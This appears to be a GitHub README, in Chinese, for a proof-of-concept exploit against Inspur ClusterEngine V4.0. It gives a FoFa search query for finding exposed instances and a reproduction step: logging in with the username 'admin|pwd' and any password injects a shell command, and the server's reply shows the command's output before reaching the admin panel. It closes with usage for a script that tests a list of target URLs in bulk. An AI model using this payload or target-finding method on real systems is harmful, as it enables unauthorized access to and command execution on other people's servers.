


# 影响范围：  
已知浪潮ClusterEngineV4.0  
# FoFa fork:  
title="TSCEV4.0"
# 漏洞复现  
访问登录页面：  
https://xxx.xxx.xxx.xxx:8443/module/login/login.html 
  
  
  
使用用户名admin|pwd和任意密码进行登录  
  
 


服务器返回结果：  

```
{"err":"","exitcode":0,"out":"/\n"}
```

登陆成功，进入管理界面！！！  


# 脚本使用
待检测地址存放在Url.txt中，保存在脚本同目录下。  
python3 any-user-login.py 


